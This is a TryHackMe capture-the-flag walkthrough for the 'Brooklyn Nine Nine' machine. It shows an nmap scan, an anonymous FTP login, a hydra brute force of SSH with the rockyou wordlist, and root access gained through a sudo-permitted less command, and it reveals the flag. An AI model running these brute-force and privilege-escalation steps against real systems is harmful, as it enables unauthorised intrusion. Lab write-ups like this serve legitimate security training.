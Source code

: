 # Try-hack-me-CTF-walkthroughs-writeups

<h3>Brooklyn Nine Nine is an easy machine in TryHackMe in which we’ll use basic enumeration and use hydra.</h3>

<p>1. First of all, let’s use NMAP to see which ports are open:</p>

    $ nmap -A -T4 -p- -vv <TARGET IP>
    Starting Nmap 7.80 ( https://nmap.org ) at 2020–07–26 00:33 CEST
    Nmap scan report for 10.10.30.131
    Host is up (0.045s latency).
    Not shown: 65532 closed ports
    PORT STATE SERVICE VERSION
    21/tcp open ftp vsftpd 3.0.3
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_-rw-r — r — 1 0 0 119 May 17 23:17 note_to_jake.txt
    22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Site doesn’t have a title (text/html).
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

From the output, we understand that there are three open ports:

1. 21 FTP
2. 22 SSH
3. 80 HTTP<br>

On the HTTP service we have just an image and in the source code there is a comment that tells something about steganography, but for now we will go with FTP.


Then we can see that the FTP allows anonymous login and that there is a txt file named note_to_jake.txt.

Login to the FTP service and check what it holds (if you put a ‘-’ after the file, you can see the content on the terminal):

    ftp> get note_to_jake.txt -
    200 PORT command successful. Consider using PASV.
    150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
    From Amy,Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine226 Transfer complete.
    119 bytes received in 0.00125 seconds (93.2 kbytes/s)
    Dammit what you do Jake, you are a mess but at least you are not a brown noser like someone else.. What do you think Amy?

Ok, close the FTP connection and let’s go to the next step.

Gently grab the Dept’s key
For this, we need hydra:

    $ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://<TARGET IP> -f -VV -t 4

After a while, hydra will find the password. Thank you, Jake.


Now we have the password for the machine, we can now attempt to ssh onto the machine to get the user flag. we can do this by:

    $ ssh jake@<TARGET IP>
    jake@brookly_nine_nine:~$ ls -la
    total 44
    drwxr-xr-x 6 jake jake 4096 May 26 09:01 .
    drwxr-xr-x 5 root root 4096 May 18 10:21 ..
    -rw — — — — 1 root root 1349 May 26 09:01 .bash_history
    -rw-r — r — 1 jake jake 220 Apr 4 2018 .bash_logout
    -rw-r — r — 1 jake jake 3771 Apr 4 2018 .bashrc
    drwx — — — 2 jake jake 4096 May 17 21:36 .cache
    drwx — — — 3 jake jake 4096 May 17 21:36 .gnupg
    -rw — — — — 1 root root 67 May 26 09:01 .lesshst
    drwxrwxr-x 3 jake jake 4096 May 26 08:57 .local
    -rw-r — r — 1 jake jake 807 Apr 4 2018 .profile
    drwx — — — 2 jake jake 4096 May 18 14:29 .ssh
    -rw-r — r — 1 jake jake 0 May 17 21:36 .sudo_as_admin_successful

Inside the jake’s directory I don’t find anything useful, so let’s go to the upper level

    jake@brookly_nine_nine:~$ ls -la ../
    total 20
    drwxr-xr-x 5 root root 4096 May 18 10:21 .
    drwxr-xr-x 24 root root 4096 May 19 15:17 ..
    drwxr-xr-x 5 amy amy 4096 May 18 10:23 amy
    drwxr-xr-x 6 holt holt 4096 May 26 09:01 holt
    drwxr-xr-x 6 jake jake 4096 May 26 09:01 jake

Amy’s directory is empty, but the Captain’s dir is not:

    jake@brookly_nine_nine:~$ ls -la ../holt/
    total 48
    drwxr-xr-x 6 holt holt 4096 May 26 09:01 .
    drwxr-xr-x 5 root root 4096 May 18 10:21 ..
    -rw — — — — 1 holt holt 18 May 26 09:01 .bash_history
    -rw-r — r — 1 holt holt 220 May 17 21:42 .bash_logout
    -rw-r — r — 1 holt holt 3771 May 17 21:42 .bashrc
    drwx — — — 2 holt holt 4096 May 18 10:24 .cache
    drwx — — — 3 holt holt 4096 May 18 10:24 .gnupg
    drwxrwxr-x 3 holt holt 4096 May 17 21:46 .local
    -rw-r — r — 1 holt holt 807 May 17 21:42 .profile
    drwx — — — 2 holt holt 4096 May 18 14:45 .ssh
    -rw — — — — 1 root root 110 May 18 17:12 nano.save
    -rw-rw-r — 1 holt holt 33 May 17 21:49 user.txt

As we can see from the above, Holt holds the user.txt file. we can now “cd” into the holt folder and cat the user.txt file.

getting root flag.

This has 2 possible ways of getting the root flag. I am only going to show one way.

first we can run (‘sudo -l’). Running ‘sudo -l’ can tell us if the user we currently are can run any commands as sudo without having to enter any sort of password.

as you can see from the screenshot below, we can run the less commands as root without password.


So, Lets run less command

    jake@brookly_nine_nine:~$ sudo /usr/bin/less /root/root.txt
    -- Creator : Fsociety2006 --
    Congratulations in rooting Brooklyn Nine Nine
    Here is the flag: wubalubadubdub
    Enjoy!!
    
<h2>Conclusion</h2>
Thanks to Fsociety2006 for the room. It is very funny for a B99 “fan” like me and still useful for beginners.

Hope this could be appreciated by someone out there.

Stay safe.

